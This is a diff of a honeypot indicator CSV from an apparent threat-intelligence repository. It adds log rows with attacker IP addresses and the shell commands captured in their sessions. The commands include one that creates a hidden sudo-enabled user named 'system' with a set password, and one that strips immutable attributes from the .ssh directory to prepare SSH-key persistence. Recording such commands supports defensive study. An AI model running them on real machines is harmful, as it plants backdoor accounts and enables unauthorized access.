

Before and after one commit to CyDefOps/project-killchain, a CSV file: IOCs/network-indicators/honeypot/attack-pattern/full-14d.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/IOCs/network-indicators/honeypot/attack-pattern/full-14d.csv
+++ b/IOCs/network-indicators/honeypot/attack-pattern/full-14d.csv
+row 726: 142.93.177.188: [
+row 727: {
+row 728: timestamp: "2023-11-08T10:39:05.672487Z"
+row 729: event: "command_input"
+row 730: input: "apt update && apt install sudo curl -y && sudo useradd -m -p $(openssl passwd -1 bprfhGB4) system && sudo usermod -aG sudo system && sudo usermod -aG sudo system"
+row 731: session: "e83cd4ee3970"
+row 732: }
+row 733: {
+row 734: timestamp: "2023-11-08T10:39:05.673028Z"
+row 735: event: "command_input"
+row 736: input: "openssl passwd -1 bprfhGB4"
+row 737: session: "e83cd4ee3970"
+row 738: }
+row 739: ]
+row 740: 43.156.49.75: [
+row 741: {
+row 742: timestamp: "2023-11-08T10:52:36.709807Z"
+row 743: event: "command_input"
+row 744: input: "cd ~; chattr -ia .ssh; lockr -ia .ssh"
+row 745: session: "35abd9dc3d03"
```
Also changed, not shown: 14 added rows elsewhere in this file, 1 other file.
